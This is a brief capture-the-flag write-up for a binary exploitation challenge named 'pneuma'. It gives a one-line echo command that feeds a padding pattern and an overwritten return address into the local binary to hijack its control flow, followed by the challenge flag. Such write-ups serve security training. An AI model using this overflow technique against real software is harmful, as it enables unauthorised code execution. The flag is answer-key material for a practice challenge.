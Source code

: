 # pwn | pneuma

## Information
We are spirit bound to this flesh
We go round one foot nailed down
But bound to reach out and beyond this flesh
Become Pneuma

## Writeup

`echo -e "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaRBPRBPRB\x76\x12\x40\x00\x00\x00\x00\x00" | ./pneuma`

## Flag
`SgffCTF{3y3s_fu11_0f_w0nd3r}`
